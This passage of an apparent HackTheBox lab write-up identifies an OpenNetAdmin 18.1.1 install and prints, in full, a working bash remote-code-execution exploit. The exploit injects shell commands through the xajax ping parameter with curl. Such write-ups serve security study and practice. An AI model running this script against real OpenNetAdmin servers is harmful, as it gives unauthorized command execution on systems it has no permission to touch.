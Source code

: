 We found a few folders. Most of them contain static resources. 

But **/ona/** looks interesting as it appears to be a PHP application.

![ona homepage](./onahome.png)

The application is **OpenNetAdmin version 18.1.1**.

## OpenNetAdmin RCE Exploit

[OpenNetAdmin](https://opennetadmin.com/) is a network management tool that offers a database managed inventory of your IP network.

There is one RCE exploit available for the version installed (18.1.1).

```
root@kali:~/htb/openadmin# searchsploit opennetadmin
<SNIP>
OpenNetAdmin 18.1.1 - Command Injection Exploit (Metasploit)                                         | exploits/php/webapps/47772.rb
OpenNetAdmin 18.1.1 - Remote Code Execution                                                          | exploits/php/webapps/47691.sh
```

### Understanding The Exploit

This is the exploit script.

```
#!/bin/bash

URL="${1}"
while true;
do
 echo -n "$ "; read cmd
 curl --silent -d "xajax=window_submit&xajaxr=1574117726710&xajaxargs[]=tooltips&xajaxargs[]=ip%3D%3E;echo \"BEGIN\";${cmd};echo \"END\"&xajaxargs[]=ping" "${URL}" | sed -n -e '/BEGIN/,/END/ p' | tail -n +2 | head -n -1
done
```
